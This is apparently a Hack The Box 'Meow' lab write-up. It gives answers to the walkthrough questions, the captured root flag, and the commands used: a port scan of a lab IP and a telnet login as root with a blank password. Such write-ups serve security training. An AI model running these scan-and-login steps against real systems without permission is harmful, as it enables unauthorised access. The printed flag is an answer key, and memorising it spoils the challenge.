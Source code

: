 # Meow

## Questionnaire

##### What does the acronym VM stand for?

```
Virtual Machine
```

##### What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

```
terminal
```

##### What service do we use to form our VPN connection into HTB labs?

```
openvpn
```

##### What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?

```
tun
```

##### What tool do we use to test our connection to the target with an ICMP echo request?

```
ping
```

##### What is the name of the most common tool for finding open ports on a target?

```
nmap
```

##### What service do we identify on port 23/tcp during our scans?

```
telnet
```

##### What username is able to log into the target over telnet with a blank password?

```
root
```

##### Submit root flag

```
b40abdfe23665f766f9c61ecba8a4c19
```

## Commands

### Scan

```
$ rustscan -a 10.129.43.238

PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack
```

### Telnet

```
$ telnet -l root 10.129.43.238

Trying 10.129.43.238...
Connected to 10.129.43.238.
Escape character is '^]'.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)
```
